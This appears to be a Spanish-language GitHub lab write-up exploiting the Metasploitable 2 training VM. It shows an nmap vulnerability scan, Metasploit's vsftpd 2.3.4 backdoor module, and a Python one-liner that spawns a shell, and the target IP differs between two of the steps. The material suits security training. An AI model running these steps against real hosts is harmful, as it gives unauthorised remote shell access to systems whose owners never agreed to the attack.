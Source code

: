 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=450&height=80&lines=Metasploitable 2"></a>
</p>

**sourceforge:** https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**Paso 1:**

Escaneo de puertos y vulnerabilidades con nmap.

```
sudo nmap -sS -sV --script vuln 10.10.11.6
```

<p align="center">
<img src="./Img/escaneo.png">
</p>

**Paso 2**

Como podemos observar tiene vulnerabilidad en el puerto 21 y tiene como servicio vsftpd versión 2.3.4.

Para explotar esta vulnerabilidad vamos usar metasploit:

```
msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

options
```

<p align="center">
<img src="./Img/metasploit.png">
</p>

cómo podemos ver tenemos que configurar la IP de la maquina vulnerable en
RHOSTS para poder acceder.


```
set RHOSTS 10.10.10.6

exploit
```

Ahora para poder generar un línea de comandor deberemos usar el sigueinte comando:

```python
python -c 'import os; os.system("/bin/sh")'

shell
```

<p align="center">
<img src="./Img/shell.png">
</p>